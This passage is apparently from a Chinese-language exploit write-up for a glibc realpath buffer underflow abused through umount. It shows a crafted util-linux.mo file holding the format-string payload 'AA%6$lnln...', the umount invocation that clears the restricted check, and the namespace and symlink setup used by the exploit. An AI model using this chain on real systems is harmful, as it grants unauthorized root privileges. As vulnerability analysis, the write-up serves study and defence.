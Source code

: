 ```
root@debian:/tmp# strings "(unreachable)/tmp/__gconv_find_shlib/C/LC_MESSAGES/util-linux.mo"
%s: not mounted
Language: en
MIME-Version: 1.0
Content-Type: text/plain; charset=UTF-8
Content-Transfer-Encoding: 8bit
AA%6$lnlnAAAAAAAAAA

```

- Step4 - 通过umount触发DOS

      - LC_ALL环境变量会使setlocale函数去加载翻译文件；

      - umount会先尝试卸载down目录，这个特制的符号链接会触发realpath漏洞造成越界写，将堆内存中的`"/usr/lib/locale/C.utf8/LC_CTYPE"`路径字符串中LC_CTYPE覆盖为`AAAAAA(略...)/A`；

      - 当realpath将down解析为(unreachable)/x后，umount会调用warnx函数打印警告信息，此时会加载特制的util-linux.mo文件，`"AA%6$lnlnAAAAAAAAAA"`替换掉warnx函数的第一个参数`"%s: not mounted"`；

      - 利用格式化字符串，umount栈中RSP存放的地址处的指针指向的`long int值(*(long *)$RSP)`会被修改为2。这会将该处存放的libmnt_context结构体的restricted字段修改为0, 从而让umount认为调用者是root用户，并成功进行后面的umount / 操作。

        这个步骤相关的umount调用栈:

        `main->umount_one->make_exit_code->warnx(_("%s: not mounted"), tgt);`

        ( [格式化字符串](https://zh.wikipedia.org/wiki/格式化字符串) , [x64传参顺序](https://shimo.im/docs/g6CxTdpcQ8wcHkKc/) )

```
test$ cd /proc/2299/cwd
test$ LC_ALL=C.UTF-8 /bin/umount --lazy down /
AAlnAAAAAAAAAA
```

      

## 4. EXP

##### a. EXP原理

**准备阶段(prepareNamespacedProcess)**

- 先通过clone启动一个拥有独立`user & mount namespace`的子进程，
  子进程启动后，会先等待父进程将其uid和gid设置为0(当前namespace)
  然后`mount tmpfs`到`/tmp`目录，并切换到`/tmp`作为当前工作目录
  创建一个ready文件(`O_WRONLY|O_CREAT|O_EXCL|O_NOFOLLOW|O_NOCTTY`)
- 获取当前系统信息

- 在clone出的子进程工作目录(`/proc/[pid]/cwd`)中生成一系列文件和目录

生成的文件如下：

```
invincible@ubuntu:/proc/10013/cwd$ tree
.
├── DATEMSK
├── ready
└── (unreachable)
    ├── tmp
    │   ├── down -> ../x/../../AAA(省略...)A/AAA(省略...)A/A
    │   └── from_archive
    │       ├── C.UTF-8
    │       │   └── LC_MESSAGES
    │       │       └── util-linux.mo
    │       ├── X.x
    │       │   └── LC_MESSAGES
    │       └── X.X
    │           └── LC_MESSAGES
```